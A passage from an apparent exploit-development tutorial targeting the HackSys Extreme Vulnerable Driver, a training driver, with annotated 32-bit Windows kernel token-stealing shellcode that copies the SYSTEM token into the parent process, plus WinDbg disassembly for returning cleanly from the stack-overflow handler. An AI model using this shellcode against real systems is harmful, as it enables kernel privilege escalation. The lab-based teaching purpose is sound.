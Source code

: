 <br>
Here is the annotated assembly:  

```asm  
pushad                         // Backup registers
mov eax, DWORD PTR fs:[0x20]   // _KPRCB * eax = _KPRC + 0x20
mov eax, DWORD PTR [eax+0x4]   // _KTHREAD * eax = _KPRCB + 0x4
mov eax, DWORD PTR [eax+0x150] // _EPROCESS * eax = _KTHREAD + 0x150
mov ecx, eax                   // Store _PROCESS for current thread in ecx for later use
mov esi, DWORD PTR [eax+0x140] // Store Parent PID in esi
lea eax, DWORD PTR [eax+0xb8]  // Move address of the _LIST_ENTRY field into eax

findSystem:
mov eax, DWORD PTR [eax+0x4]   // Move backward in the active process list using the Blink
mov ebx, DWORD PTR [eax-0x4]   // Get the Unique Process Id (PID) for this new _EPROCESS structure
cmp ebx, 0x4                   // Compare PID against 4 (SYSTEMS PID)
jne findSystem                 // If PID != 4, this _EPROCESS strucutre is not for SYSTEM, iterate
                                  to the next _EPROCESS structure
                               
                               // If the JNE instruction didn't jump it means the PID for the
                                  _EPROCESS structure == 4 which means its the _EPROCESS structure
                                  for SYSTEM
                                  
sub eax, 0xb8                  // Point EAX back to the beginning of the _EPROCESS structure
add eax, 0xf8                  // Point EAX to the _EX_FAST_REF field ( The token field ) 
mov eax, [eax]                 // Move the token value into eax
and al, 0xf8                   // And off the refcount bits
mov edi, eax                   // Store SYSTEM token in edi
mov eax, ecx                   // Set eax back to the current processes _EPROCESS structure
lea eax, DWORD PTR [eax+0xb8]  // Move _LIST_ENTRY into eax 

findParent:
mov eax, DWORD PTR [eax+0x4]   // Move backward in the active process list using the Blink
mov ebx, DWORD PTR [eax-0x4]   // Get the Unique Process Id (PID)
cmp ebx, esi                   // Compre the pid of the _EPROCESS structure against the PID of
                                  the parent process
jne findParent                 // If they arent equal continue looping through the _EPROCESS 
                                  structures
sub eax, 0xb8                  // If they are equal you have found the _EPROCESS structure for
                                  the parent process, point EAX to the start of that _EPROCESS
                                  structure
add eax, 0xf8                  // Point EAX to the _EX_FAST_REF field ( The token field ) 
mov [eax], edi                 // Write the token from the SYTEM _EPROCESS structure that we
                                  stored in edi into the address of the token structure in the
                                  parent processes token field.
popad                          // Restore all the registers to what they were before the shellcode
```

<br>
There is one last thing we need to add. After our shellcode finishes it will 
just start executing whatever is following the last instruction above (`popad`) 
which will probably be junk and cause an access violation. An access violation 
in the kernel will cause an Bugcheck which we don't want. We need to use 
our shellcode to return gracefully from the `BufferOverflowStackIoctlHandler` 
because that's were ordinarily `TriggerBufferOverflowStack` should have returned 
back to, not our shellcode. If we look at the instructions immediately 
following the return from `TriggerBufferOverflowStack` we see the following:  
<br>
```
2: kd> u HEVD!BufferOverflowStackIoctlHandler L20
HEVD!BufferOverflowStackIoctlHandler 
... Snipped for brevity ...
924b6195 e808000000      call    HEVD!TriggerBufferOverflowStack (924b61a2)
924b619a 8bc8            mov     ecx,eax
924b619c 8bc1            mov     eax,ecx
```